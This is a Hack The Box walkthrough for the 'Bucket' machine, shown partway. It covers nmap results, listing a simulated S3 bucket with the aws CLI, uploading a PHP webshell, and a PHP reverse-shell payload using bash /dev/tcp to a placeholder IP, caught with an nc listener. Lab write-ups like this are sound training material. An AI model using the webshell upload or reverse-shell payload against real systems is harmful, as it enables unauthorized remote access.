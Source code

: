 # Hackthebox - Bucket

![Bucket](../.res/HTB-Bucket.png)

- [Box on HTB](https://app.hackthebox.com/machines/283)

- Linux

## Nmap

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48add5b83a9fbcbef7e8201ef6bfdeae (RSA)
|   256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)
|_  256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519)
80/tcp open  http    Apache httpd 2.4.41
|_http-title: Did not follow redirect to http://bucket.htb/
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.99 seconds
```

- We need to add this to our etc/hosts `10.10.10.212 bucket.htb`

## Port 80

First we need to launch burp in order to keep what we browse in our proxy history.  

We land here when accessing `http://bucket.htb/`  

![Landing page](../.res/2023-07-16-14-19-41.png)  

There's a reference to an s3 bucket here  

![s3 bucket reference](../.res/2023-07-16-14-33-30.png)  

We can add a this line to our `/etc/hosts` `10.10.10.212 bucket.htb s3.bucket.htb`

Now when accessing the image we find interesting headers in our burp history  

```http
x-amz-request-id: 2523F45736DE9BCD
x-amz-id-2: MzRISOwyjmnup2523F45736DE9BCD7/JypPGXLh0OVFGcJaaO3KW/hRAqKOpIEEp
```

This seems to simulate an aws bucket  
We can create a profile with this command we do not need to put valid keys `aws configure --profile htb-bucket`  

We are now able to list the content of the remote machine  
![list content](../.res/2023-07-16-15-00-32.png)  

Let's see what we have in adserver  

![adserver](../.res/2023-07-16-15-06-57.png)  

Let's download the files to our local machine to inspect them  

![Get files](../.res/2023-07-16-15-11-44.png)  

When browsing in the website we noticed that it was hosted on Apache. What could be interesting is to see if we could upload a php shell using the access we have on the bucket.  
Let's try this.  
We first try a simple php webshell. And cp it to our target  
`aws --endpoint-url=http://s3.bucket.htb s3 cp webshell.php s3://adserver`  
It works but our files get deleted pretty quickly.  
![webshell](../.res/2023-07-16-15-26-50.png)  
I still managed to get passwd file to see the users  

![passwd](../.res/2023-07-16-15-30-08.png)  

We have 2 users root and roy  

```txt
root:x:0:0:root:/root:/bin/bash
roy:x:1000:1000:,,,:/home/roy:/bin/bash
```

Let's try to get a reverse shell

This php code should work  

```php
<?php exec('/bin/bash -c \"bash -i >& /dev/tcp/YOUR-IP/1234 0>&1 \"');
?>
```

We set up a listener `sudo rlwrap nc -lnvp 1234`

And we get a shell as www-data  

![shell](../.res/2023-07-16-15-35-17.png)  

We will still need to make a lateral movement to get the user because we can not see the user.txt file for now.  

## COMING SOON

![Coming soon](../.res/coming-soon.png)  